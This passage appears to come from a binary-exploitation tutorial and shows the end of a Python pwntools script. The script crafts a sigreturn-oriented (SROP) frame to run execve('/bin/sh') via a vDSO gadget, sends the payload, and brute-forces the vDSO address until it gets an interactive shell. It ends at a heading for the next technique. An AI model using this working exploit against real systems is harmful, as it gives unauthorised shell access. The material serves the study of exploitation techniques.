 ```python
    frame.eax = 0xb
    frame.ebx = binsh_addr
    frame.ecx = 0
    frame.edx = 0
    frame.eip = vdso_addr + 0x416  #address of int 80h
    frame.esp = bss_addr # whatever
    frame.ebp = bss_addr # whatever
    frame.gs = 0x63
    frame.cs = 0x23
    frame.es = 0x2b
    frame.ds = 0x2b
    frame.ss = 0x2b
    
    ret_addr = vdso_addr + 0x411  #address of sigreturn syscall
    
    #print payload
    
    payload += p32(ret_addr) + str(frame)
    p.recvuntil("input something you want: \n")
    p.sendline(payload)

    sleep(1)
    p.sendline("echo pwned!")
    r = p.recvuntil("pwned!")
    if r != "pwned!":
        raise Exception("Failed!")

    return

    

if __name__ == "__main__":
    global p, vdso_addr
    i = 1
    while True:
        print "\nTry %d" % i
        try:
            main()
        except:
            #print e
            p.close()
            i += 1
            continue
        print "vdso_addr: " + hex(vdso_addr)
        p.interactive()
        break
```



# 5. FSPO
